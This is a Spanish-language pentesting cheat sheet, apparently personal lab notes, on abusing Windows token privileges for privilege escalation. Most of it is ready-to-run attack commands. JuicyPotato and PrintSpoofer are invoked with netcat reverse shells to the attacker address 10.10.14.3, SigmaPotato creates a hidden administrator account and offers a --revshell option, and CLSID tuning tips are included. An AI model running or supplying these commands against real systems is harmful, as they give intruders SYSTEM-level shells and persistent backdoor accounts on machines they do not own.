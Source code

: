 ## Info

- Windows usa access tokens para interrelacionarse con las apps y gestionar la autenticación de manera sencilla y automática, funciona como el HASH



## Correr un cmd como otro usuario local
    runas /user:backupadmin cmd
## Abuso de privilegios

### Abusar del SeImpersonate priv
Si nuestro usuario tiene el privilegio de SeImpersonate podemos abusar de él y conseguir una shell reversa.

#### Escalar privilegios con JuiciPotato:
##### Juicipotato no funciona en WS 2019 y windows 10 build 1809 en adelante. Para estos casos usar printspoofer o rogepotato
- l = local port
- p = programa a correr
- a = Argumento que se le va a pasar al programa
- t = creación de proceso 

    JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
    
A veces Juici no funciona bien de una, deberemos buscar CLSIDS correspondientes. Podemos encontrarlos en el siguiente link:

    https://ohpe.it/juicy-potato/CLSID/

Luego: agregamos el CLSID con la opción -c "{CLSID}"

    jp.exe -l 53375 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -p c:\windows\system32\cmd.exe -a "/c c:\windows\temp\nc.exe -e cmd.exe 10.10.14.3 4443" -t *

#### Escalar privilegios con PrintSpoofer
    PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"

#### Podemos utilizar también sigmapitato

Sigma potato nos permite abusar de los pipes. Podemos crear un user admin con este software

    .\SigmaPotato "net user dave4 lab /add"
    .\SigmaPotato "net localgroup Administrators dave4 /add"

Sigma Potato nos permite también generar una reverse shell

    SigmaPotato.exe --revshell <ip_addr> <port>
    
### Abusar del SeDebugPrivilege

